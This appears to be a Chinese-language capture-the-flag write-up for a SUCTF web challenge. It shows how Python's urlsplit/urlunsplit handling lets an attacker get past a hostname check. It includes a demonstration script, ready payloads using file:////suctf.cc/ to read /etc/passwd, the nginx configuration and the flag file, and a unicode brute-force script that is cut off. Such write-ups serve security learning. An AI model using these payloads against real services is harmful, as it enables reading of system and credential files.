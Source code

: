 首先分析代码，我们需要绕过一个`hostname`，然后`urlsplit`,再绕过一个`hostname`，然后`urlsplit`,这次需要`hostname==suctf.cc`,最后利用`urllib.request.urlopen`可以实现远程连接访问，感觉就是利用这个地方。



如果可以实现远程连接访问，就可以利用`file`协议直接读取服务器上的文件。

###  方法1--非预期解

```python
from urllib.parse import urlsplit,urlunsplit,unquote
from urllib import parse

url="file:////suctf.cc/usr/local/nginx/conf/nginx.conf"
#url="http:///www.baidu.com/index.php?id=1"
host=parse.urlparse(url).hostname
print(host)


parts=parse.urlsplit(url)
print(parts)

url2=urlunsplit(parts)
parts2=parse.urlsplit(url2)

print(parts2)
```

结果：

```
None
SplitResult(scheme='file', netloc='', path='//suctf.cc/usr/local/nginx/conf/nginx.conf', query='', fragment='')
SplitResult(scheme='file', netloc='suctf.cc', path='/usr/local/nginx/conf/nginx.conf', query='', fragment='')
```

加4个斜杠，就可以实现两次绕过`hostname`

绕过bypass，直接利用

payload：

```php
?url=file:////suctf.cc/etc/passwd
?url=file:////suctf.cc/usr/local/nginx/conf/nginx.conf  //读取配置文件
?url=file:suctf.cc/usr/fffffflag
```

###  方法2

直接暴力,也是利用字符

写脚本

```python
from urllib.parse import urlparse, urlunsplit, urlsplit
from urllib import parse


def get_unicode():
    for x in range(65536):
        uni = chr(x)
        url = "http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: " + uni + ' unicode: \\u' + str(hex(x))[2:])
        except:
            pass
```